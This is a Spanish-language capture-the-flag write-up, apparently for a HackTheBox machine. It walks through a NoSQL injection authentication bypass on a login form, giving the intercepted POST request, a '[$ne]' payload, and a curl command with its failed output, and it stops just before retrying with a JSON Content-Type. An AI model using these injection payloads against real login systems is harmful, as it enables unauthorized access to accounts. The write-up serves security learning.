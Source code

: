 Al interceptar la peticion con burp nos podemos dar cuenta de como se esta enviando nuestra peticion:

```ruby
POST /login HTTP/1.1
Host: 10.10.11.139:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://10.10.11.139:5000
Connection: close
Referer: http://10.10.11.139:5000/login
Upgrade-Insecure-Requests: 1

user=c4rta&password=nose
```
No hay mucho de destacar, podemos ver en el **Content-Type** que el contenido que estamos enviando es un formulario en URL encode, es una peticion POST, y demas, sin embargo, como estamos contra un login, siempre es bueno probar si existe una SQLi o NoSQLi para hacer **Authentication Bypass**, les puedo adelantar que mediante SQLi no se va a poder, y viendo por las tecnologias que hemos encontrado hasta ahora, es muy probable que use **MEAN stack**, asi que probaremos con NoSQLi

> [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass)

De primeras podemos probar con 

```ruby
user=admin&password[$ne]=mizuki
```

El **[$ne]** significa **not equal**, y esta funcionando asi: Si el **user** es igual a **admin** y la **password** no es igual a **mizuki**, se estarian cumpliendo las dos condiciones por que el usuario **admin** si es un usuario valido y la contraseña de ese usuario no es **mizuki**, asi que la consulta seria verdadera y nos deberia de iniciar sesion, en mi caso usare curl:

```ruby
curl -v -X POST -d 'user=admin&password[$ne]=mizuki' 10.10.11.139:5000/login 2>&1 | grep -E "Content-Length|Invalid"
```

Pero no funcionara:

```ruby
curl -v -X POST -d 'user=admin&password[$ne]=mizuki' 10.10.11.139:5000/login 2>&1 | grep -E "Content-Length|Invalid"
> Content-Length: 31
< Content-Length: 1040
            Invalid Password
```

Sin embargo podemos indicarle, que el **Content-Type** sea JSON para ver si ahora si funciona, simplemenete al comando le agregamos el **-H** para especificar que el encabezado **Content-Type** sea **application/json** y modificamos el fomato de los datos a enviar:

